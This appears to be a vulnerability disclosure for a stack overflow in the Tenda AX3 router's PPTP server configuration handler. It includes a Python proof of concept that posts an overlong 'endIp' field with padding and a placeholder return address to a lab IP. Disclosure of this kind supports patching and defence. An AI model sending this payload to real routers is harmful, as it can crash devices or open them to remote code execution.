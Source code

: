 # Stack Overflow Vulnerability in Tenda Router AX3 ([V16.03.12.11](https://www.tenda.com.cn/material/show/103476))

## Overview

In the latest version V16.03.12.11 of the Tenda Router AX3, a critical security vulnerability exists. This vulnerability occurs in the `formSetPPTPServer` function when handling requests from the `/goform/SetPptpServerCfg` page.

## Vulnerability Details

During the processing of the request, the `endIp` and `startIp` parameters are concatenated onto the stack. 

This concatenation operation does not perform effective length checks, leading to a stack overflow, **which can result in denial of service (DoS) or remote code execution (RCE)**.

![image-20250204014837728](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250204014837728.png)

## POC

```
from pwn import *
import requests

url = "http://172.18.231.176/goform/SetPptpServerCfg"

retaddr="bbbb"
payload = "1.2.3."+"a"*0x2ec+p32(retaddr)
data = {
    "startIp": "1.2.3.4",
    "endIp": payload,
}
res = requests.post(url=url,data=data)
print(res.text)
```

## AttackDemo

![image-20250204020920791](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250204020920791.png)

![image-20250204021117739](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250204021117739.png)

![image-20250204021238249](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250204021238249.png)

![image-20250204021336279](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250204021336279.png)
